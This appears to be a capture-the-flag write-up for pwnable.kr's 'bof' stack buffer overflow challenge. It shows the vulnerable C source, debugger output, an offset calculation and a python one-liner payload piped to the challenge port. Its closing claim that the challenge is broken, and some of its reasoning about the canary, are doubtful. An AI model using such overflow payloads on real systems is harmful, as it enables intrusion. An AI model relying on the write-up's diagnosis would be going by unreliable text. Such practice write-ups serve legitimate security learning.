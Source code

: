 # bof - pwnable.kr
- Challenge Name: __bof__
- Challenge category: __pwn__
- Challenge Difficulty: __easy__
- CTF Year and Date: __2025__
- Date: __2025-05-12__

## Challenge Description
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

# Information Gathering
The challenge is hosted on an server, that may be accessed by ssh:
`ssh bof@pwnable.kr -p2222 (pw: guest)`

```shell
bof@ubuntu:~$ ls -la
total 44
drwxr-x---   2 root bof   4096 Apr  3 16:04 .
drwxr-xr-x 129 root root  4096 May  6 09:27 ..
-rw-r--r--   1 root root   220 Feb 14 11:22 .bash_logout
-rw-r--r--   1 root root  3771 Feb 14 11:22 .bashrc
-rw-r--r--   1 root root   811 Apr  3 16:04 .profile
-rwxr-xr-x   1 root bof  15300 Mar 26 13:03 bof
-rw-r--r--   1 root root   342 Mar 26 13:09 bof.c
-rw-r--r--   1 root root    86 Apr  3 16:03 readme
```
Get the file information
```shell
file bof
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1cabd158f67491e9edb3df0219ac3a4ef165dc76, for GNU/Linux 3.2.0, not stripped
````

```shell
bof@ubuntu:~$ checksec --file bof
[!] Could not populate PLT: [Errno 12] Cannot allocate memory
[*] '/home/bof/bof'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

````

The binary has stack protection enabled (canary) has position-independent code (PIC) enabled. The binary runs properly regardless of the memory location it’s loaded at, i.e., the memory location doesn’t need to be a fixed address.

--> Run the binary in ctf-pwn container (tools/ctf/pwn)
The source code of the binary is provided in `bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		setregid(getegid(), getegid());
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
````

The readme contains insructions on how to get the flag: 
```shell
cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
```
## Vulnerability
The binary has a buffer overflow vulnerabilty because the gets() function performs no check on the size of the input. It will keep on accepting input until a newline is encountered irrespective of the size of the variable in which the input is being stored. This property is described as a lack of ‘bounds checking’.

Because canaries are used, the stack is protected against overflow-attacks: 

```shell
bof@ubuntu:~$ ./bof
overflow me : 1234567890123456789012345678901234
Nah..
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

## Summary of recon
- A binary with a buffer overflow vunerabilty
- The binary has stack protection enabled (canary)

# Solution/Exploit
## Task
To get the shell, we must overwrite the function local variable with the value `0xcafebabe`. This can be done with a payload that gets read by the gets() function and will overflow the `overflowme` buffer. However, we can possibly ignore the stack protection (canary), because we get shell BEFORE the function returns control to main (where stack manipulation will be detected.)

## Strategy

1. Use the debugger on the target system to calculate the offset needed to overwrite the function parameter

```shell
gdb
pwndbg> file bof
pwndbg> start
```

Use next, step and disassemble to find the position, where gets() returns, just before the parameter gets compared to the constant value of `0xcafebabe`. Then hit c (contiune) - we enter the string `AAAABBBBCCCCDDDDEEEEFFFF` on the stack, we can see that the value of the parameter is on the stack 7 * 4 bytes after the end of the overflowme buffer:

```text
pwndbg> x/40wx $sp
0xffffd4f0:	0xf7ffd608	0x00000020	0x00000000	0x41414141
0xffffd500:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd510:	0x46464646	0x00000000	0xf7d954be	0x8899f900
0xffffd520:	0xf7fa7000	0xffffd614	0xffffd548	0x565562c5
0xffffd530:	>0xdeadbeef<	0xf7fbe66c	0xf7fbeb30	0x565562b3
0xffffd540:	0x00000001	0xffffd560	0xf7ffd020	0xf7d9e519
0xffffd550:	0xffffd753	0x00000070	0xf7ffd000	0xf7d9e519
0xffffd560:	0x00000001	0xffffd614	0xffffd61c	0xffffd580
0xffffd570:	0xf7fa7000	0x5655629d	0x00000001	0xffffd614
0xffffd580:	0xf7fa7000	0xffffd614	0xf7ffcb80	0xf7ffd020
```

We can calculate the distance between our input and 0xdeadbeef easily, each hex value represents 4 bytes (0x41414141 == AAAA) and we have exactly 13 of them before 0xdeadbeef.

We can create the payload using a simple python script and pass it to nc: 

```shell
python3 -c "import sys; sys.stdout.buffer.write(b''.join([b'A' * 52]) + b'\xbe\xba\xfe\xca' + b'\n')" | nc 0 9000 
````

But there is no shell. However, when we alter the value of that should overwrite the parameter `key`we get a `stack smashed` warning: 

```shell
bof@ubuntu:~$ python3 -c "import sys; sys.stdout.buffer.write(b''.join([b'A' * 52]) + b'\xbe\xba\xfe\xce' + b'\n')" | nc 0 9000
*** stack smashing detected ***: terminated
```

# Conclusion
- The challenge seems to be broken. 

# References

